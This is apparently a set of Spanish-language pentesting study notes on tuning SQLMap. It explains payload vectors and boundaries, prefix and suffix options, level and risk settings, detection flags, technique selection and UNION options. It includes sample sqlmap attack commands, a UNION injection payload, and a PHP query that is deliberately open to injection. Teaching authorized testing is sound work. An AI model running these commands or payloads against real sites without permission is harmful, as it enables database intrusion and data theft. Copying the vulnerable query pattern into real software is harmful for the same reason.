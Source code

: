 
---
# Ajuste de Ataques en SQLMap

SQLMap está diseñado para funcionar de manera óptima con los detalles del objetivo proporcionados. Sin embargo, en algunos casos puede ser necesario ajustar la detección de SQLi para mejorar los resultados.

## Estructura de los Payloads

Cada payload enviado por SQLMap consta de:

- **Vector**: La parte central de la inyección, contiene el código SQL que se ejecutará en el objetivo.  
    _Ejemplo:_ `UNION ALL SELECT 1,2,VERSION()`
- **Boundaries**: Prefijo y sufijo que permiten insertar correctamente el vector en la consulta SQL vulnerable.  
    _Ejemplo:_ `<vector>-- -`

## Uso de Prefijo y Sufijo

En ciertos casos, SQLMap no puede inyectar directamente, por lo que se deben definir prefijos y sufijos específicos con `--prefix` y `--suffix`:

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

Si la consulta vulnerable en el servidor es:

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
```

El payload:

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

Esto ayuda en casos donde se requieren estructuras específicas para que la inyección sea exitosa.

## Nivel y Riesgo

SQLMap permite ajustar los vectores utilizados con las opciones:

- `--level` (1-5, por defecto 1): Amplía el número de vectores y boundaries utilizados. A mayor nivel, más pruebas con menor probabilidad de éxito.
- `--risk` (1-3, por defecto 1): Amplía el conjunto de vectores dependiendo del riesgo de afectar el sistema (pérdida de datos o DoS).

Ejemplo con máxima profundidad:

```bash
sqlmap -u www.example.com/?id=1 --level=5 --risk=3
```

Esto incrementa el número de payloads enviados (de ~72 en `--level=1 --risk=1` hasta ~7,865 en `--level=5 --risk=3`).

⚠️ **Nota:** Aumentar estos valores ralentiza la detección. Solo modificar en casos donde los ataques estándar no sean efectivos.

## Depuración y Comparación de Payloads

Para observar las diferencias en los payloads generados con distintos niveles y riesgos, se puede usar `-v 3`:

```bash
sqlmap -u www.example.com/?id=1 -v 3 --level=5
```

Salida con `--level=5` (más payloads y pruebas adicionales):

```
[INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (original value)'
[INFO] testing 'Oracle boolean-based blind - WHERE clause (CTXSYS.DRITHSX.SN)'
...
```

Salida con valores por defecto (`--level=1 --risk=1`):

```
[INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
```

## Ajustes Avanzados

SQLMap permite afinar la detección con varias opciones específicas:

### **Basado en Códigos de Estado HTTP**

Si las respuestas del servidor varían según el código HTTP (`200` para TRUE, `500` para FALSE), se puede especificar con:

```bash
sqlmap -u www.example.com/?id=1 --code=200
```

### **Basado en el Título de la Página**

Si el cambio en la respuesta está en la etiqueta `<title>`, se usa:

```bash
sqlmap -u www.example.com/?id=1 --titles
```

### **Detección Basada en Texto**

Si la diferencia entre respuestas se encuentra en el contenido, se puede fijar con:

```bash
sqlmap -u www.example.com/?id=1 --string="Login successful"
```

### **Filtrar Solo Texto Visible**

Para ignorar etiquetas HTML (`<script>`, `<style>`, etc.) y analizar solo el contenido visible:

```bash
sqlmap -u www.example.com/?id=1 --text-only
```

## Selección de Técnicas SQLi

En ciertos casos, es necesario limitar las pruebas a un tipo específico de inyección con `--technique`:

```bash
sqlmap -u www.example.com/?id=1 --technique=BEU
```

- `B` (Boolean-based blind)
- `E` (Error-based)
- `U` (Union-based)
- `S` (Stacked queries)
- `T` (Time-based blind)

_⚠️ Útil si ciertas técnicas generan problemas (por ejemplo, time-based causando timeouts)._

## Ajustes para Inyección UNION

Si una inyección UNION requiere datos específicos, podemos definir:

- Número de columnas:
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-cols=5
    ```
    
- Valores de relleno en UNION:
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-char='X'
    ```
    
- Tabla específica en `FROM` (para bases de datos como Oracle):
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-from=users
    ```
    

---

Este resumen te ayudará a ajustar ataques en SQLMap de manera más precisa para mejorar la detección de vulnerabilidades SQLi en pruebas de pentesting.